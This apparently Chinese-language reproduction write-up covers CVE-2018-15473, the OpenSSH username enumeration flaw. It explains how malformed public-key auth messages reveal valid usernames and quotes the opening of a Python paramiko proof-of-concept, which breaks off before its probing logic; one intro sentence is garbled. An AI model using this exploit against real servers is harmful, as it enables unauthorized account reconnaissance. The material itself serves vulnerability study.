 # CVE-2018-15473 OpenSSH 用户枚举漏洞

### 一、漏洞简介

OpenSSH（OpenBSD安全外壳）是OpenBSD计划组的一套用于安全访问远程计算机的连接工具。该工具是SSH协议的开源实现，支持对所有的传输进行加密，可有效阻止窃听，连接劫持以及其他网络级OpenSSH 7.7及之前版本中存在信息中断。该漏洞源于网络系统或产品在运行过程中存在配置等错误。未授权的攻击者可以利用入侵获取组件敏感信息。

### 二、漏洞影响

OpenSSH < 7.7

### 三、复现过程

这个漏洞存在于OpenSSH所实现的一些认证功能之中，首先我们一起看一看Ubuntu OpenSSH的公共密钥认证漏洞。

通过向一台OpenSSH服务器发送恶意的公共密钥认证消息，攻击者将能够获取特定的用户名信息。如果用户不存在，服务器将会向客户端发送认证失败的消息。如果用户存在，消息将无法解析并终止通信，即通信连接会在没有任何消息回传的情况下断开。关于该漏洞的漏洞利用代码可以从这个Python PoC脚本中获取：


```python
#!/usr/bin/env python

# Copyright (c) 2018 Matthew Daley
#
# Permission is hereby granted, free of charge, to any person obtaining a copy
# of this software and associated documentation files (the "Software"), to
# deal in the Software without restriction, including without limitation the
# rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
# sell copies of the Software, and to permit persons to whom the Software is
# furnished to do so, subject to the following conditions:
#
# The above copyright notice and this permission notice shall be included in
# all copies or substantial portions of the Software.
#
# THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
# IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
# FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
# AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
# LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
# FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
# IN THE SOFTWARE.


import argparse
import logging
import paramiko
import socket
import sys


class InvalidUsername(Exception):
    pass


def add_boolean(*args, **kwargs):
    pass


old_service_accept = paramiko.auth_handler.AuthHandler._handler_table[
        paramiko.common.MSG_SERVICE_ACCEPT]

def service_accept(*args, **kwargs):
    paramiko.message.Message.add_boolean = add_boolean
    return old_service_accept(*args, **kwargs)
```